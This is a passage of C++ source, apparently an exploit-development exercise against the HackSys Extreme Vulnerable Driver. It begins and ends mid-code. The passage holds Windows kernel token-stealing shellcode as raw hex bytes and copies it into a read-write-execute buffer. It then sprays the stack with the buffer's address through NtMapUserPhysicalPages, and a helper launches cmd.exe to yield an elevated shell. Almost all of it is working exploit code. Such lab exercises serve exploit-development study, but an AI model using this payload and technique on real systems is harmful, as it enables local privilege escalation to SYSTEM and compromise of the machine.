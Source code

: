 ```cpp
	Startup_Info.cb = sizeof(Startup_Info);
	CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, 0, CREATE_NEW_CONSOLE, NULL, NULL, &Startup_Info, &Process_Info);
}

int main()
{
	HANDLE HEVD = Get_Handle();

	// Just a dummy buffer so that we don't match the keyword value for BAD0B0B0
	char Input_Buffer[] = "\x41\x41\x41\x41";

	// Acutally creating an instance of our typedef by typcasting the result of a GetProcAddress call inside of ntdll.dll for 'NtMapUserPhysicalPages' (Thanks tekwizz!)
	_NtMapUserPhysicalPages NtMapUserPhysicalPages = (_NtMapUserPhysicalPages)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtMapUserPhysicalPages");

	// Token stealing payload straight from b33f's FuzzySec blogpost 
	char Shellcode[] = (
		"\x60"
		"\x64\xA1\x24\x01\x00\x00"
		"\x8B\x40\x50"
		"\x89\xC1"
		"\x8B\x98\xF8\x00\x00\x00"
		"\xBA\x04\x00\x00\x00"
		"\x8B\x80\xB8\x00\x00\x00"
		"\x2D\xB8\x00\x00\x00"
		"\x39\x90\xB4\x00\x00\x00"
		"\x75\xED"
		"\x8B\x90\xF8\x00\x00\x00"
		"\x89\x91\xF8\x00\x00\x00"
		"\x61"
		"\xC3"
		);

	// Allocate a RWX buffer the size of our shellcode
	LPVOID Shellcode_Addr = VirtualAlloc(NULL,
		sizeof(Shellcode),
		MEM_COMMIT | MEM_RESERVE,
		PAGE_EXECUTE_READWRITE);

	// Copying our shellcode buffer into our RWX buffer
	printf("[*] Allocating RWX shellcode at: %X\n", Shellcode_Addr);
	memcpy(Shellcode_Addr, Shellcode, sizeof(Shellcode));

	// This var is going to be a pointer to the address of Shellcode_Addr, this will end up being the value we spray on the stack
	LPVOID Spray_Address = &Shellcode_Addr;
	printf("[*] Our address to spray on the stack: %X\n", Spray_Address);

	// This var will be used as our BaseAddress in our NtMapPhysicalPages API call
	int Zero = 0;

	// We will typecast this to a PBYTE and reference its address when calling NtMapPhysicalPages
	char Page_Frame_Numbers[4096] = { 0 };

	// This for loop will take our 4096 character array and fill it with the Spray_Address value
	for (int i = 0; i < 1024; i++)
	{
		memcpy((Page_Frame_Numbers + (i * 4)), Spray_Address, 4);
	}

	// Calling the API finally, thanks again, tekwizz
```